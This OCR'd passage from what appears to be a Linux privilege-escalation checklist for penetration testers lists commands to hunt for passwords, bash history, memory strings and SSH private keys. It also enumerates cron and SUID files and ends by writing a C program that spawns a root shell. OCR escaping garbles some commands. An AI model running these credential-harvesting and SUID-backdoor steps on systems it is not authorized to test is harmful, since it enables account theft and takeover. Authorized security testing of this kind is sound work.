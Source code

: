 	find . \-type f \-exec grep \-i \-I "PASSWORD" {} /dev/null
	locate password | more
	```
- [ ] Search creds from local DBs
- [ ] Search creds from bash history:
	```bash
	history
	cat ~/.bash_history
	```
- [ ] Search creds from memory:
	```bash
	strings /dev/mem \-n10 | grep \-i PASS
	```
- [ ] SSH keys:
	```bash
	cat ~/.ssh/id_rsa
	ls ~/.ssh/\*
	find / -name authorized_keys 2> /dev/null
	find / -name id_rsa 2> /dev/null
	```
### Exploit
- [ ] Kernel  is  vulnerable to known exploit?
- [ ] Sudo is vulnerable to known exploit?
- [ ] Services running on localhost are vulnerable?
	
### Misconfiguration
- [ ] Cron job -> check for write permissions on the following files:
	```bash
	/etc/init.d
	/etc/cron\*
	/etc/crontab
	/etc/cron.allow
	/etc/cron.d 
	/etc/cron.deny
	/etc/cron.daily
	/etc/cron.hourly
	/etc/cron.monthly
	/etc/cron.weekly
	/etc/sudoers
	/etc/exports
	/etc/anacrontab
	/var/spool/cron
	/var/spool/cron/crontabs/root
	crontab \-l
	ls \-alh /var/spool/cron;
	ls \-al /etc/ | grep cron
	ls \-al /etc/cron\*
	cat /etc/cron\*
	cat /etc/at.allow
	cat /etc/at.deny
	cat /etc/cron.allow
	cat /etc/cron.deny\*
	```
- [ ] Writeable cron job dependecy (File, Python library, etc)
- [ ] Find SUID:
	```bash
	find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
	find / -uid 0 -perm -4000 -type f 2>/dev/null
	```
- [ ] Check SUID on [GTFOBins](https://gtfobins.github.io/)
- [ ] Create SUID:
	```bash
	print 'int main(void){\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n}' \> /tmp/suid.c   